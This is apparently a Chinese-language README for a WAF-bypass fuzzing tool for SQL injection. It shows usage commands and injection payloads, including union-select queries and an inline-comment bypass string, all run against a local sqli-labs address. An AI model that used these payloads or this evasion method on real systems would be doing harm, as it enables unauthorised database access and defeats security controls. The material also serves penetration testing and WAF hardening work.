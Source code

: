# sql_Bypass_WAF
sql注入bypass waf工具，绕waf fuzz测试工具。

## 简介
---
sql_Bypass_WAF是一款sql注入绕waf工具，通过fuzz的方式，进行大量测试找到bypass语句。


## 整体流程
---
1. 半自动，需要人工判断拦截关键字并指定关键字进行fuzz测试。
2. 首先先访问一下waf拦截页面，获取拦截页面特征，如响应码、响应内容长度、body中关键字。
3. 进行fuzz测试，如果响应与之前的拦截响应有多处不同，证明成功绕过。


## Bypass方法
---
已实现Bypass方法：
内联注释

后续会更新更多的Bypass方法。



## 使用方法
---
1. -h查看参数帮助

![](../images/文章/sql注入bypass_waf工具/8.png)


2. 先判断出waf拦截的sql恶意语句。
---
![](../images/文章/sql注入bypass_waf工具/1.png)

3. 再将想要Bypass的语句带入到工具中，注意带入到工具中的url为waf拦截的url。
---
如果bypass一个参数，用"~"进行包裹，如
```
http://192.168.170.133/sqli/less-1/?id=1' and 1=1 --+
将"and"用~包裹后：
http://192.168.170.133/sqli/less-1/?id=1' ~and~ 1=1 --+
```

命令示例：
```
sql_Bypass_WAF.exe -s "http://192.168.170.133/sqli/less-1/?id=1' ~and~ 1=1 --+"
```

![](../images/文章/sql注入bypass_waf工具/2.png)


![](../images/文章/sql注入bypass_waf工具/3.png)

如果为两个参数，在两个参数中间加"^"，如
```
http://192.168.170.133/sqli/less-1/?id=1' order by 1 --+
将"order by"用^指定
http://192.168.170.133/sqli/less-1/?id=1' order^by 1 --+
```

命令示例：
```
sql_Bypass_WAF.exe -s "http://192.168.170.133/sqli/less-1/?id=1' order^by 1 --+"
```


![](../images/文章/sql注入bypass_waf工具/4.png)

![](../images/文章/sql注入bypass_waf工具/5.png)

暂不支持超过两个参数的fuzz，但可以拆分依次带入测试，如：

```
测试语句:
http://192.168.170.133/sqli/less-1/?id=-1' union select 1,database(),3 --+

先bypass"union select"
http://192.168.170.133/sqli/less-1/?id=-1' union^select 1,2,3 --+
bypass后语句：
http://192.168.170.133/sqli/less-1/?id=-1' union/*////%//select 1,2,3 --+

再bypass"database()"
http://192.168.170.133/sqli/less-1/?id=-1' union/*////%//select 1,database^(),3 --+

```

![](../images/文章/sql注入bypass_waf工具/6.png)

![](../images/文章/sql注入bypass_waf工具/7.png)



## 后续更新功能

1. post请求Bypass。
2. waf识别。
3. Bypass成功后自动生成tamper脚本。
4. 更多的Bypass方法。
